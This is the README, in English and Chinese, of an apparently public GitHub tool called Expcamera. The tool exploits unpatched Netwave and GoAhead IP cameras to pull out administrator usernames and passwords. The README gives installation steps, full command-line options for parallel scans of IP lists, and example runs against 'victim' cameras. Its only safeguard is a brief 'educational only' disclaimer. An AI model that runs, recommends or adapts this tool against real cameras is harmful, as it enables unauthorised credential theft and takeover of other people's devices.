 # Expcamera
Exploit Netwave and GoAhead IP Camera  
Expcamera is a tool for exploiting vulnerable Netwave and GoAhead IP camera to get the username and password.  
Environment:Linux,Python3  
	
**Attention:this tool is just for educational!**  
**Please comply with local laws and regulations!**  

# Installation
	git clone https://github.com/vanpersiexp/expcamera.git  
	pip3 install -r related.txt  
# Usage
	python3 exploit_camera.py -h  

	usage: exploit_camera.py [-h] [-b {1,2}] [-o OUTPUTFILE] [-T TIMEOUT]  
        	                 [-t TASKS] [-q | -v] [-i IP | -I INPUTFILE]  

	Exploit IP Camera. Please use it just in educational purpose!  

	optional arguments:  
	  -h, --help     show this help message and exit  
	  -b {1,2},--brand {1,2}  
		         Choose the brand of IP Camera. 1 represents Netwave,2  
	                 represents GoAhead.  
	  -o OUTPUTFILE,--output OUTPUTFILE  
		         Output into path you input.The default path in dir /tmp  
	  -T TIMEOUT,--timeout TIMEOUT  
		         The default timout for netwave is 300s.  
	  -t TASKS,--task TASKS  
	                 Run TASKS number of connects in parallel,default is 10  
	  -q,--quiet     Quiet mode.  
	  -v,--verbose   Show more informations.  
	  -i IP,--ip IP  The camera's ip and port.Example: 192.168.1.100:80  
	  -l INPUTFILE,--list INPUTFILE  
		         The camera's ip:port address file. The file's format  
			 like this 192.168.1.100:80 in a line.  
# Example
1.Victim IP Camera's brand is Netwave.The ip is 192.168.1.100 and port is 80.  

	python3 exploit_camera.py -b 1 -i 192.168.1.100:80 -v  

2.Victim IP Camera's brand is GoAhead.The iplist.txt is given.   
The iplist.txt show as below:  
192.168.1.10:80  
192.168.1.100:81  
192.168.1.200:8080  

	python3 exploit_camera.py -b 2 -l iplist.txt -v
	
# Contacts
pu.xiaorvp@gmail.com  

# References
http://www.cnvd.org.cn/flaw/show/CNVD-2017-01037  
http://cn.0day.today/exploit/26889  
https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html  
http://www.cert.org.cn/publish/main/9/2017/20170320152751379105282/20170320152751379105282_.html  


# 中文版
Netwave和GoAhead多款摄像头密码泄漏漏洞的利用工具。  
本工具用于针对仍未修补漏洞的摄像头，可以获取摄像头的管理员账户和密码。  
使用环境：Linux,Python3。  

**注意：此工具只用于学习交流目的。**  
**请严格遵守您所在国家的法律法规！**  

# 安装
	git clone https://github.com/vanpersiexp/expcamera.git  
	pip3 install -r related.txt  
# 使用
	python3 exploit_camera.py -h  

	usage: exploit_camera.py [-h] [-b {1,2}] [-o OUTPUTFILE] [-T TIMEOUT]  
        	                 [-t TASKS] [-q | -v] [-i IP | -I INPUTFILE]  

	Exploit IP Camera. Please use it just in educational purpose!  

	optional arguments:  
	  -h, --help     show this help message and exit.帮助信息   
	  -b {1,2}       Choose the brand of IP Camera. 1 represents Netwave,2  
	                 represents GoAhead.选择摄像头品牌，1代表Netwave，2代表GoAhead。  
	  -o OUTPUTFILE  Output into path you input.The default path in dir /tmp.输出文件路径，默认为/tmp  
	  -T TIMEOUT     The default timout for netwave is 300s.默认超时时间为300s。  
	  -t TASKS       Run TASKS number of connects in parallel,default is 10.多任务同时处理，默认为10。  
	  -q             Quiet mode.安静模式。  
	  -v             Show more informations.显示更多信息。    
	  -i IP          The camera's ip and port.Example: 192.168.1.100:80.摄像头ip和port形式。例如：192.168.1.100:80。    
	  -I INPUTFILE   The camera's ip:port address file. The file's format like  
	                 this 192.168.1.100:80 in a line.摄像头ip和port文件格式。每一行都以192.168.1.100:80的形式。 
 
# 例子
1.摄像头品牌为Netwave。IP地址为192.168.1.100, port端口为80。  

	python3 exploit_camera.py -b 1 -i 192.168.1.100:80 -v  

2.摄像头品牌为GoAhead。IP地址文件iplist.txt如下所示：  
192.168.1.10:80  
192.168.1.100:81  
192.168.1.200:8080  

	python3 exploit_camera.py -b 2 -l iplist.txt -v
	
# 联系方式
pu.xiaorvp@gmail.com  

# 参考
http://www.cnvd.org.cn/flaw/show/CNVD-2017-01037  
http://cn.0day.today/exploit/26889  
https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html  
http://www.cert.org.cn/publish/main/9/2017/20170320152751379105282/20170320152751379105282_.html  



